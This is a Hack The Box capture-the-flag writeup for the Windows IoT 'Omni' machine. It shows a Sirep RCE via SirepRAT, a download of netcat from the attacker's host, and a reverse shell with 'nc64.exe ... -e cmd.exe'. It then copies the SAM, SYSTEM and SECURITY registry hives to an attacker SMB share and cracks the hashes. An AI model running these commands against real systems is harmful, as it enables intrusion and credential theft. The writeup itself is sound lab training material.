```yaml
---
layout: post
title:  "Hack The Box - Omni Writeup"
date:   2021-01-09 06:00:00
categories: Security CTF HTB"
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Omni/Header.png)

Omni is an Easy level "Other" machine. Boxes typically fall under the "Linux" or "Windows" category, so this deviation from the norm should lead to a fun and interesting challenge. Based on the creator and community statistics, this box has a decent balance across all areas, but leaning slightly more towards realistic configurations exploited with existing CVEs.  
![Statistics](../images/HTB-Omni/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p135,5985,8080,29817,29819,29820 -sV -sC -Pn -oA Extracts/Omni 10.10.10.204`  
![Nmap](../images/HTB-Omni/nmap.png)

* **Port 135 - msrpc**: Microsoft Remote Procedure Call, is used to negotiate communication over ports 1025 - 65535. 
* **Port 5985 - upnp**: Although nmap shows this port is hosting some type of IIS server, port 5985 is also used for [WinRM](https://docs.microsoft.com/en-us/windows/win32/winrm/portal). If we're able to find credentials, it's posible this will be our way into the machine.
* **Port 8080 - upnp**: Another reference to IIS here, it looks like one of our nmap scripts discovered a "Windows Device Portal" application requiring basic authentication. 
* **Ports 29817, 29819, 29820**: After a bit of research, it appears that these ports are related to WPCon, WPConTCPPing, WPPingSirep, and WPConProtocol2. The Arcserve reference could also be useful later on.

### Windows IoT
Looking into the "Windows Device Portal" finding, we're led to documentation around the Windows IoT platform. We're likely targetting an IoT device, which should narrow down our focus with CVEs and exploits.

## Foothold
Combining the discovery of a Windows IoT device with the higher ports, we find an exploit against the Sirep Test Service that allows for Remote Code Execution. We can leverage this using a simple python tool called [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT), along with a list of writeble directories to work with.  
![Writeable](../images/HTB-Omni/Foothold_Writeable.png)

### Upload Netcat
Our first step to gaining access on the machine is to upload a netcat executable. This will allow us to create a connection back to our machine and execute additional commands. Start up a simple python server to host our nc46.exe.  
`>> python -m SimpleHTTPServer`

Next, we'll execute a command on the target server to request our file and download it to the Windows Temp directory.  
`>> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell -c Invoke-WebRequest -OutFile C:\\Windows\\Temp\\nc64.exe -URI 10.10.14.28:8000/nc64.exe" --v`

### Reverse Shell
With the netcat executable in place, our next step is to create a listener on our local machine.  
`>> nc -lvnp 4444`  

We'll send a second command to the target server, this time connecting back to our listener and gaining shell as the Omni user.  
`>> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\Temp\\nc64.exe 10.10.14.28 4444 -e cmd.exe"`  
![Reverse Shell](../images/HTB-Omni/Foothold_Shell.png)  

### Locating Credentials
Typically, the user flag can be found easily in the Desktop of the user you gained access with. However, this box seems to have a different setup than most and will require us to do a little extra digging. We can search for the `user.txt` file with Powershell.  
`>> powershell -c get-childitem -path c:\ -filter user.txt -recurse -erroraction silentlycontinue -force`  
![Flag Search](../images/HTB-Omni/Foothold_Search.png)  

Reading the contents of `C:\Data\Users\app\user.txt` leads to some Powershell credential information. Unfortunately, we can't decrypt the flag inside yet because it belongs to the app user.  
![User File](../images/HTB-Omni/Foothold_User.png)  

### Extracting SAM, SYSTEM, SECURITY files
Although there is an alternative path on this box involving a batch file left behind during creation, we'll be looking at the intended solution dumping user hashes from the registry. The Security Account Manager (or SAM file) is a database containing all the password hashes for user accounts. The SYSTEM and SECURITY files will allow us to extract the hashes for cracking.

We'll start off by configuring an SMB Share on our local machine to tansfer the files to.  
`>> sudo smbserver.py share . -smb2support -username omni -password omni`

With the share running, we can connect to it from the Omni shell using the credentials we set up.  
`>> net use \\10.10.14.15\share /u:omni omni`

And now, we're able to extract the files while sending them to our machine:  
`>> reg save HKLM\sam \\10.10.14.15\share\SAM`  
`>> reg save HKLM\system \\10.10.14.15\share\SYSTEM`  
`>> reg save HKLM\security \\10.10.14.15\share\SECURITY`  
![SMB Share](../images/HTB-Omni/SMB_Share.png)

### Extracting Hashes
With the files we need successfully sent to our local machine, we're able to extract the hashes inside using `secretsdump.py`.  
`>> secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL`  
![Hashes](../images/HTB-Omni/Hashes.png)

### Cracking Hashes
Our last step to getting user credentials is to run the hashes through `hashcat` and see what we can find.  
`>> .\hashcat.exe -a0 -m1000 .\hash.txt .\rockyou.txt --username`  
![Hashes Cracked](../images/HTB-Omni/Hashes_Cracked.png)

Looks like we've got credentials for the app user!
`app:mesh5143`

### User Flag
Authenticating with the app user credentials against port 8080 results in access to the Windows Device Portal we previously discovered. Under `Processes > Run Command`, we're able to execute arbitrary commands on the system. Let's get the User flag  
`>> powershell -c $credential = Import-CliXml -Path C:\Data\Users\app\user.txt;$credential.GetNetworkCredential().Password`
![User Flag](../images/HTB-Omni/User_Flag.png)  

## Privilege Escalation
In addition to the user flag file, the app user's directory contains an `iot_admin.xml` file. Executing the previous command against the new file results in gaining the admin password `_1nt3rn37ofTh1nGz`.

Reauthenticating to the dashboard using the administrative credentials, we're shown an identical screen as the app user. Again, navigating to `Processes > Run Command` will allow us to execute system commands, this time as the admin. 

### Root Flag
`>> powershell -c $credential = Import-CliXml -Path C:\Data\Users\administrator\root.txt;$credential.GetNetworkCredential().Password`  
![Root Flag](../images/HTB-Omni/Root_Flag.png)  
